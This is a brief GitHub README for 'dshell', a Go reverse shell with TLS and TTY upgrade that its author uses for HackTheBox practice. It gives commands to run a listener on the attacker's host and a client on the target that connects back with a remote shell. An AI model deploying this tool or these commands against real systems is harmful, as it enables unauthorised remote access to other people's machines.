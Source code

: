 # dshell
Simple golang reverse shell with encryption and tty upgrade. I use it for hackthebox.

## Usage
Download both files from the [release page](https://github.com/stacksparrow4/dshell/releases/tag/v0.1.0).
Upload dshellclient to the target.

On your linux host, run `./dshellserver -p PORT`.
On the target, run `./dshellclient YOURIP PORT`.

You should get a connection, with a TTY that supports tab autocomplete and clear screen with CTRL-L. The shell is plain text underneath TLS with x509 certificates.
